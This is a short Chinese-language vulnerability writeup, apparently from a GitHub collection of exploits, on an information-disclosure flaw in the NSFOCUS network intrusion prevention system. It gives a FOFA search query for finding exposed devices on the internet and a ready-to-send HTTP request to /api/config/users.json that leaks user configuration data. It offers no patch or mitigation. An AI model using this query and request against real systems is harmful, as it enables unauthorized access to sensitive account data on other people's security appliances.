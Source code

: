 ## **漏洞描述**



北京神州绿盟科技有限公司网络入侵防护系统存在信息泄露漏洞，攻击者可利用该漏洞获取敏感信息。

## **影响版本**

##  绿盟网络入侵防护IPS系统 



## ** 漏洞复现**

## **fofa语法**

```
body="We're sorry but ipsweb" || title="NSFOCUS NIDPS"
```

## **漏洞POC**

```yaml
GET /api/config/users.json HTTP/1.1
Host: xxxx
Connection: keep-alive
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script


```

![图片](NIPS%20%E7%BB%BF%E7%9B%9F%E7%BD%91%E7%BB%9C%E5%85%A5%E4%BE%B5%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9Fusers.json%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF%E6%B3%84%E6%BC%8F.assets/640.webp)
